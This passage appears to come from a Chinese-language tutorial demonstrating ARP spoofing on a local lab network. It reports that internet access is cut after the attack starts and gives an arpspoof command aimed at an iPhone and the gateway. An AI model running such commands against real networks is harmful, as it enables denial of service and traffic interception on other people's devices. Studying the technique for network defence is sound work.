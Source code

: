 #### 2.1.3.1. 查看效果

可以看到，我在测试开始的时候去ping百度还是ok的，但是开启攻击后，再去ping百度就无法访问了。

![image-20230812173611270](assets/image-20230812173611270.png)

### 2.1.4. 攻击IPhone

这里也是同样的手法。

```
arpspoof -i eth0 -t 192.168.2.20(目标IP) 192.168.2.1(网关IP)
```

![image-20230812174112724](assets/image-20230812174112724.png)
